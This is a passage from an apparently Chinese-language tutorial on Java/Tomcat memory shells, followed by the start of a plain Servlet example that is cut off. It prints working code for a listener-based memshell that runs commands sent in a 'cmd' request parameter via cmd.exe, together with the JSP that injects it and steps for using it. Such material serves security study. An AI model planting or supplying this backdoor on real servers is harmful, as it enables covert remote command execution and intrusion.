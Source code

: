 ```bash
    public class MyListener implements ServletRequestListener {
        @Override
        public void requestDestroyed(ServletRequestEvent sre) {
            HttpServletRequest req = (HttpServletRequest) sre.getServletRequest();
            if (req.getParameter("cmd") != null) {
                InputStream in = null;
                try {
                    in = Runtime.getRuntime().exec(new String[]{"cmd.exe", "/C", req.getParameter("cmd")}).getInputStream();
                    Scanner scanner = new Scanner(in).useDelimiter("\\A");
                    String out = scanner.hasNext()?scanner.next():"";
                    Field requestFiled = req.getClass().getDeclaredField("request");
                    requestFiled.setAccessible(true);
                    Request request = (Request) requestFiled.get(req);
                    request.getResponse().getWriter().write(out);
                } catch (Exception e) {}
            }
        }

        @Override
        public void requestInitialized(ServletRequestEvent sre) {

        }
    }
%>

<%
    Field reqField = request.getClass().getDeclaredField("request");
    reqField.setAccessible(true);
    Request req = (Request) reqField.get(request);
    StandardContext context = (StandardContext) req.getContext();
    MyListener listener = new MyListener();
    context.addApplicationEventListener(listener);
%>
```

先访问 listenMemshell.jsp 生成内存马，然后访问任意路径，加上 cmd 参数即可命令执行

## 6\. Servlet

### 6.1 例子

创建 HelloServlet 类

```bash
package org.example.servlet;

import javax.servlet.ServletException;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;

@WebServlet(value = "/hello", name = "hello")
public class HelloServlet extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        super.doGet(req, resp);
        System.out.println("doget");
    }

    @Override
```